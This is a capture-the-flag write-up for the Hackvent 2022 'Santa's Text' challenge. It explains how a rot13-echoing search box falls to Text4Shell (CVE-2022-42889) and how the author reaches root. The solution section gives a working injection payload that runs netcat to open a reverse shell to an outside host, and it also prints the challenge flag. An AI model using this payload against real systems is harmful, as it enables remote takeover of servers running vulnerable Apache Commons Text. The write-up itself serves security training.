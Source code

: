 ```yaml
---
title: "[HV22.09] Santa's Text"
date: 2022-12-09 13:25:29 +0100
tags: HV22 CTF penetration medium exploit reverse shell
categories: HV22 medium
sidebar:
  nav: "hv22"
---
```


Santa recently created some Text with a 🐚, which is said to be vulnerable code. Santa has put this Text in his library, putting the library in danger. He doesn't know yet that this could pose a risk to his server. Can you backdoor the server and find all of Santa's secrets?

# Solution

So, we got a website again, which looks like this:
![challenge website](/assets/hv22/hv22_09_website.png)

When we enter some string in the search box, we get it displayed back, shifted with rot13. Usual escape characters like single quotes, double quotes, backslash etc. seem to pass fine, so no visible injection possible at least.

While reading the challenge description again, there are two things sticking out. First, the word **Text** comes up twice and is written with a capital T, and the word shell is written as an emoji. Second, in the description, it is mentioned, that if a reverse shell is needed, VPN has to be used.

The game plan is to find an exploit the vulnerability, and then to get a reverse shell working.

Searching the internet for "text shell vulnerability", you quite quickly land at Text4Shell (CVE-2022-42889) and some [example pocs](https://github.com/securekomodo/text4shell-poc) for it.

It looks like we only have to input `${script:javascript:java.lang.Runtime.getRuntime().exec('nc x.x.x.x 3456 -e /bin/bash')}` and then wait for a connection from the target. Of course, it didn't work because of rot13, but since the website already gives me the rot13 version of the string, I can just copy paste it again to get a shell:

![got a reverse shell](/assets/hv22/hv22_09_shell.png)

From here, it's just a bit of looking around for the flag, which shouldn't be too hard since we already are root. The file /SANTA/FLAG.txt (quite easy to find) gives us the flag `HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}`

![got the flag](/assets/hv22/hv22_09_flag.png)
